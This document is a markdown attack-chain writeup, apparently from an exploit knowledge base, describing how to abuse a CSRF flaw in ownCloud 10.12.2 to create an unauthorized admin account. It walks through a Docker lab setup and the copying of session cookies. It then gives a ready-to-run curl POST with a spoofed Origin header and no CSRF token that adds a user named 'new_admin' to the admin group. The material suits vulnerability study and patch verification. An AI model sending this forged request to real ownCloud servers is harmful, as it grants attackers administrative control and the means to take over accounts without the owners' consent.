

# CSRF Exploitation in ownCloud to Create Unauthorized Admin User

Multi-stage attack chain demonstrating exploitation of a CSRF vulnerability in ownCloud version 10.12.2, allowing an attacker to forge requests and create unauthorized admin accounts using a victim's authenticated session.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/docker-compose]]
- [[tools/curl]]

### Target Environment

- ownCloud 10.12.2 running on Docker with Redis and MariaDB
- Exposed on port 8080
- Web browser for authentication

### Initial Access Requirements

- Access to run Docker containers
- Ability to interact with the ownCloud web interface
- Victim must be authenticated with Lax or None SameSite cookies

## Detailed Attack Procedures

### Step 1: Setup ownCloud Environment
procedure: [[procedures/setup-owncloud-docker-environment]]

**Objective**: Deploy the vulnerable ownCloud instance using Docker to simulate the target environment.

**Instructions**: Use [[tools/docker-compose]] to orchestrate the services. Create a docker-compose.yml file with the ownCloud image, Redis, and MariaDB, then start the containers.

**Expected Output**: ownCloud accessible at http://localhost:8080.

**Success Indicators**:
- Containers running without errors
- Web interface loads successfully

### Step 2: Authenticate as Admin
procedure: [[procedures/authenticate-owncloud-admin]]

**Objective**: Log in as an admin user to obtain a valid session for exploitation.

**Instructions**: Open the ownCloud web interface in a browser and log in with admin credentials.

**Expected Output**: Successful login to the dashboard.

**Success Indicators**:
- Admin dashboard accessible
- Session cookies generated

### Step 3: Extract Session Cookies
procedure: [[procedures/extract-owncloud-session-cookies]]

**Objective**: Capture the victim's session cookies to use in forged requests.

**Instructions**: Inspect the browser's developer tools to copy the oc_sessionPassphrase and oclt1tejv3yd cookies.

**Expected Output**: Cookies extracted for use in curl requests.

**Success Indicators**:
- Cookies valid and non-expired
- Can be pasted into request headers

### Step 4: Forge CSRF Request to Create Admin User
procedure: [[procedures/exploit-csrf-create-admin-user]]

**Objective**: Send a POST request without CSRF token to create a new admin user, exploiting the vulnerability in SecurityMiddleware.

**Instructions**: Use [[commands/curl-owncloud-csrf-user-creation]] with the extracted cookies and fake Origin header:

```bash
curl 'http://localhost:8080/settings/users/users' -H 'Accept: */*' -H 'Connection: keep-alive' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Cookie: oc_sessionPassphrase=<placeholder1>; oclt1tejv3yd=<placeholder2>' -H 'Origin: http://abc:8080' --data-raw 'username=new_admin&groups%5B%5D=admin&password=a&email=test%40mail.com' --compressed
```

Replace placeholders with actual cookies.

**Expected Output**: HTTP 200 or redirect indicating successful user creation.

**Success Indicators**:
- No CSRF exception thrown
- User creation succeeds

### Step 5: Verify Exploitation
procedure: [[procedures/verify-csrf-exploitation-login]]

**Objective**: Confirm the attack by logging in with the new admin credentials.

**Instructions**: Use the web interface to log in as 'new_admin' with password 'a'.

**Expected Output**: Successful login as the new admin user.

**Success Indicators**:
- New admin account functional
- Full privileges accessible

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection in ownCloud 10.12.2
2. Created unauthorized admin user via forged request
3. Demonstrated potential for account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
